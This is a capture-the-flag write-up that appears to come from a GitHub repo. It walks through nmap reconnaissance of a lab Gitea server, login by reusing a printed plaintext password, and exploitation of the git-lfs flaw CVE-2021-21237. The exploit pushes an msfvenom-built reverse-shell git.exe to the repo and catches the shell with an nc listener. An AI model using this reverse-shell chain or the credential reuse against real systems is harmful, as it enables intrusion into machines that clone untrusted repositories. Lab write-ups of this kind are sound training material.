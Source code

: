 # git

## Challenge

```
We found data being exfiltrated out regularly from server 10.0.1.44. Can you find the server it is going to and gain access to the remote server.

Target: Your target is the last line in the bat file on the remote server.
```

## Walkthrough

First step was to find what was running on 10.0.1.44

```sh
$ sudo nmap 10.0.1.44 -sS -v -A -p 0-65535
...
Discovered open port 22/tcp on 10.0.1.44
Discovered open port 3000/tcp on 10.0.1.44
...
3000/tcp open  ppp?
| fingerprint-strings: 
...
|   GetRequest: 
|     HTTP/1.0 200 OK
...
|     <title> Gitea: Git with a cup of tea </title>
...
```

Clearly a git web interface is running on `http://10.0.1.44:3000`.

Navigating to the web interface I found a user called `fab_admin` in the explore tab.

![explore](explore.png)

I made an assumption that the password was the same as `fab-admin` from [BADFAB1](../badfab1/README.md). And that assumption was correct!

```
username fab_admin
password populatetwiddleanointer
```

Now that I had user access to the git interface I continued reconnaissance and found a git repo at `http://10.0.1.44:3000/1ord_0f_th3_ch1p/chip_tracker.git`

Inspecting its `README.md` leads to some useful hints.

```md
# chip_tracker

Ensure to clone repo often to get stolen details.

Ensure anti-virus up to date on HQ PC, some of the git software might be out of date.
```

Sounds like the repo is cloned often and that the exploit has something to do with out of date git software on the system cloning the repo.

Inspecting the repo further I noticed a couple of things

* We have write access but not for existing files, only new ones
* The only file in the repo `./chips_list.csv` is stored using git lfs

Digging around for exploits involving git-lfs I found [CVE-2021-21237](https://nvd.nist.gov/vuln/detail/CVE-2021-21237).

> Git LFS is a command line extension for managing large files with Git. On Windows, if Git LFS operates on a malicious repository with a git.bat or git.exe file in the current directory, that program would be executed, permitting the attacker to execute arbitrary code. This does not affect Unix systems. This is the result of an incomplete fix for CVE-2020-27955. This issue occurs because on Windows, Go includes (and prefers) the current directory when the name of a command run does not contain a directory separator. Other than avoiding untrusted repositories or using a different operating system, there is no workaround. This is fixed in v2.13.2.

I executed this exploit by creating a reverse shell payload with msfvenom and uploaded it to the git repo.

```sh
# create malicious git.exe
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.8.0.8 LPORT=1337 -f exe > git.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

# add to git
$ git add git.exe
$ git commit -m "ಠ‿↼"

# listen for reverse shell
$ nc -l -p 1337 -vv &
listening on [any] 1337 ...

# upload
$ git push
...
```

Soon after my shell popped! I used it to read the desired `.bat`.

```dos
10.0.1.45: inverse host lookup failed: Unknown host
connect to [10.8.0.2] from (UNKNOWN) [10.0.1.45] 54848
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\git\chip_tracker>cd ..
C:\Users\Administrator\git\> dir
...
01/05/2022  06:09 PM               203 clone.bat
...
C:\Users\Administrator\git\>type clone.bat
...
REM All_YOUR_CHIP_ARE_BELONG_TO_US.
...
```

## Solve

string: `REM All_YOUR_CHIP_ARE_BELONG_TO_US.`
